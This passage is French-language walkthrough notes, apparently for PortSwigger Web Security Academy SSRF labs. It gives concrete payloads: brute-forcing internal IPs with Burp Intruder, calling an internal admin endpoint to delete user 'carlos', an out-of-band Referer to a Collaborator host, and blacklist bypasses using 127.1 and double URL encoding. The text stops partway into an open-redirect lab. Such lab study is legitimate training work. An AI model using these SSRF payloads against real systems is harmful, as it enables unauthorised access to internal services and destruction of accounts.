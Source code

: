 Utiliser la fonction “Check stock” sur n’importe quel article et l’intercepter sur Burp. 

Changer le paramètre “stockApi=XXX” de cette requête POST en “stockApi=http://192.168.0.1:8080/admin” puis faire une attaque de 1 à 255 sur le dernier octet de l’IP avec l’Intruder.

Noter l’IP qui donne accès à la page d’administration et reproduire la requête dans le Repeater : 
“stockApi=http://192.168.0.41:8080/admin/delete?username=carlos “

### Blind SSRF with out-of-band detection

Cas d'un site qui utilise une fonction reprenant l'URL spécifiée dans le header "Referer" lorsque la page d'un produit est chargée.

    Referer: https://8bkxox7z6q7ahaebmc9l18ou7ldc19py.oastify.com
    
### SSRF with blacklist-based input filter

En fouillant le site, on voit que la fonction "Check stock" présente sur tous les produits fait appel à une URL externe : 

>stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1

En testant un appel sur Collaborator on a bien un retour : 

>stockApi=https://q3ufgfzhy8zs9s6teu13tqgcz35utshh.oastify.com

Toutefois, en essayant de supprimer Carlos comme demandé dans la consigne, on a une erreur de sécurité : 

>http://localhost/admin/delete?username=carlos

>"External stock check blocked for security reasons"

Les payloads suivants semblent également bloqués : 

    http://127.0.0.1/admin/delete?username=carlos
    %68%74%74%70%3a%2f%2f%31%32%37%2e%30%2e%30%2e%31%2f%61%64%6d%69%6e%2f%64%65%6c%65%74%65%3f%75%73%65%72%6e%61%6d%65%3d%63%61%72%6c%6f%73
    
    http://127.1/admin/delete?username=carlos
    %68%74%74%70%3a%2f%2f%31%32%37%2e%31%2f%61%64%6d%69%6e%2f%64%65%6c%65%74%65%3f%75%73%65%72%6e%61%6d%65%3d%63%61%72%6c%6f%73
    
En revanche, en reprenant le deuxième payload mais avec un double encodage sur un caractère, on semble pouvoir contourner le filtre : 

    http://127.1/%2561dmin/delete?username=carlos
    
### SSRF with filter bypass via open redirection vulnerability

On a toujours la même fonction de vérification du stock, mais cette fois la page d'un produit contient aussi un bouton "Next product" pointant sur le produit suivant.

La requête découlant de ce bouton est la suivante : 

>GET /product/nextProduct?currentProductId=2&path=/product?productId=3 HTTP/2
